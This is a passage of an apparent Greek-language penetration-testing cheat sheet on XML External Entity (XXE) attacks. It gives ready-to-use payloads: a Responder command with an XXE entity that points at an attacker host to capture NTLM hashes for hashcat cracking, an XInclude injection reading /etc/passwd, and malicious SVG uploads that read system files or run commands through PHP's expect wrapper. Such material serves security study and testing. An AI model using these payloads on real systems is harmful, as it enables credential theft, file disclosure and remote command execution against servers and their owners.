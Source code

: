 #### Απόκτηση NTML

Σε υπολογιστές με λειτουργικό σύστημα Windows, είναι δυνατόν να αποκτηθεί το NTML hash του χρήστη του διακομιστή ιστού, ορίζοντας έναν χειριστή responder.py:
```bash
Responder.py -I eth0 -v
```
και αποστέλλοντας το ακόλουθο αίτημα
```xml
<!--?xml version="1.0" ?-->
<!DOCTYPE foo [<!ENTITY example SYSTEM 'file://///attackerIp//randomDir/random.jpg'> ]>
<data>&example;</data>
```
Στη συνέχεια μπορείτε να προσπαθήσετε να αποκρυπτογραφήσετε το hash χρησιμοποιώντας το hashcat.

## Κρυφές επιφάνειες XXE

### XInclude

Όταν ενσωματώνετε δεδομένα πελάτη σε εξυπηρετητή XML εγγράφων, όπως αυτά σε αιτήσεις SOAP στον πίσω χώρο, ο άμεσος έλεγχος της δομής XML είναι συχνά περιορισμένος, δυσχεραίνοντας τις κλασικές επιθέσεις XXE λόγω των περιορισμών στην τροποποίηση του στοιχείου `DOCTYPE`. Ωστόσο, μια επίθεση `XInclude` παρέχει μια λύση επιτρέποντας την εισαγωγή εξωτερικών οντοτήτων μέσα σε οποιοδήποτε στοιχείο δεδομένων του XML εγγράφου. Αυτή η μέθοδος είναι αποτελεσματική ακόμα και όταν μόνο ένα μέρος των δεδομένων εντός ενός XML εγγράφου που δημιουργείται από τον εξυπηρετητή μπορεί να ελεγχθεί.

Για να εκτελέσετε μια επίθεση `XInclude`, πρέπει να δηλωθεί το namespace `XInclude` και να καθοριστεί η διαδρομή του αρχείου για την επιθυμητή εξωτερική οντότητα. Παρακάτω παρουσιάζεται ένα συνοπτικό παράδειγμα πώς μπορεί να διατυπωθεί μια τέτοια επίθεση:
```xml
productId=<foo xmlns:xi="http://www.w3.org/2001/XInclude"><xi:include parse="text" href="file:///etc/passwd"/></foo>&storeId=1
```
Ελέγξτε [https://portswigger.net/web-security/xxe](https://portswigger.net/web-security/xxe) για περισσότερες πληροφορίες!

### SVG - Μεταφόρτωση Αρχείου

Τα αρχεία που μεταφορτώνονται από τους χρήστες σε ορισμένες εφαρμογές, και στη συνέχεια επεξεργάζονται στον διακομιστή, μπορούν να εκμεταλλευτούν ευπάθειες στον τρόπο που χειρίζονται τα αρχεία XML ή αρχεία που περιέχουν XML. Δημοφιλής μορφές αρχείων όπως τα έγγραφα γραφείου (DOCX) και οι εικόνες (SVG) βασίζονται σε XML.

Όταν οι χρήστες **μεταφορτώνουν εικόνες**, αυτές οι εικόνες επεξεργάζονται ή επικυρώνονται στον διακομιστή. Ακόμα και για εφαρμογές που αναμένουν μορφές όπως PNG ή JPEG, η βιβλιοθήκη επεξεργασίας εικόνας του διακομιστή μπορεί να υποστηρίζει επίσης εικόνες SVG. Το SVG, ως μορφή βασισμένη σε XML, μπορεί να εκμεταλλευτεί από επιτιθέμενους για να υποβάλουν κακόβουλες εικόνες SVG, εκθέτοντας έτσι τον διακομιστή σε ευπάθειες XXE (XML External Entity).

Παρακάτω παρουσιάζεται ένα παράδειγμα τέτοιας εκμετάλλευσης, όπου μια κακόβουλη εικόνα SVG προσπαθεί να διαβάσει αρχεία του συστήματος:
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200"><image xlink:href="file:///etc/hostname"></image></svg>
```
Μια άλλη μέθοδος περιλαμβάνει την προσπάθεια εκτέλεσης εντολών μέσω του περιτυλίγματος "expect" της PHP:
```xml
<svg xmlns="http://www.w3.org/2000/svg" xmlns:xlink="http://www.w3.org/1999/xlink" width="300" version="1.1" height="200">
<image xlink:href="expect://ls"></image>
</svg>
```
Σε και τις δύο περιπτώσεις, η μορφή SVG χρησιμοποιείται για να εκτελέσει επιθέσεις που εκμεταλλεύονται τις δυνατότητες επεξεργασίας XML του λογισμικού του διακομιστή, υπογραμμίζοντας την ανάγκη για αξιόπιστο έλεγχο εισόδου και μέτρα ασφαλείας.
